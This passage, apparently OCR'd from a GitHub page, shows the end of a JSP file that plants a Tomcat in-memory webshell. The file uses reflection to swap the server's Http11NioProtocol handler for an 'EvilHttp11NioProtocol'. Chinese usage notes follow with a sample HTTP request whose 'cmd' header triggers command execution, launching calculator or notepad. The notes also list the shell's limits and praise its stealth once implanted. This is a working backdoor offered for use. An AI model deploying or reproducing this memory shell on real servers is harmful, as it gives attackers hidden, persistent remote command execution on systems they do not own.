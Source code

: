 ```bash
            try {
                Field declaredField = clazz.getDeclaredField(field);
                declaredField.setAccessible(true);
                return declaredField.get(obj);
            } catch (Exception e) {
                clazz = clazz.getSuperclass();
            }
        }
        return null;
    }
%>

<%
    try {
        // oldhttp11NioProtocol = new EvilHttp11NioProtocal();
        // 拿到内部类对象
        // Object obj = Class.forName("org.apache.coyote.AbstractProtocol$ConnectionHandler");
        Object obj = getTheHandler();
        Field field = obj.getClass().getDeclaredField("proto");
        makeSettable(field);

        // 修改
        field.set(obj, new EvilHttp11NioProtocol());
    }catch (Exception e){
        e.printStackTrace();
    }
%>
```

## 使用说明

### 说明

HTTP 报文头中需要添加例如，cmd: ikuncalcikun，意为命令执行启动计算器

```bash
GET /Tomcat_demo_war_exploded/Http11NioProtocolMemshell.jsp HTTP/1.1
Host: 192.168.47.1:8088
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
cmd: ikunnotepadikun
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

第一次发送报文注入，下一次访问即可执行上一次的参数。

### 缺点

当前研究进度，此内存马有以下缺点：

*   获得的参数是上一次报文的参数；
*   无法有回显；
*   未在其他 Tomcat 版本测试；

### 优点

*   植入后隐蔽性良好；
